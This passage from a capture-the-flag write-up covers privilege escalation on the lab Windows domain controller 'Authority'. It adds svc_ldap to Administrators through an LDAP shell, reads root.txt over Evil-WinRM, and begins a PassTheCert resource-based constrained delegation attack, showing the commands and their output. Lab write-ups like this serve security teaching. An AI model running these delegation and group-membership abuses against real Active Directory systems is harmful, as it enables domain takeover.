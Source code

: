 ```
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 exit - Terminates this session.

```

The one that works is `add_user_to_group`:

```

# add_user_to_group svc_ldap administrators
Adding user: svc_ldap to group Administrators result: OK

```

I’ll reconnect with a new Evil-WinRM shell as svc\_ldap, and now it has the administrators group:

![image-20231127142325929](/img/image-20231127142325929.png)

That’s enough to read `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
367eb8b3************************

```

#### PassTheCert -> TGT [Path 2]

The intended way to exploit this is to use the `write_rbcd` action to give the fake computer `0xdf$` delegration rights over the DC:

```

oxdf@hacky$ python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from '0xdf$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] 0xdf$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     0xdf$        (S-1-5-21-622327497-3269355298-2248959698-11602)

```

I’ll make sure my clock is in sync with Authority:

```

oxdf@hacky$ sudo ntpdate 10.10.11.222
27 Nov 18:28:15 ntpdate[588490]: step time server 10.10.11.222 offset -14216.802932 sec

```
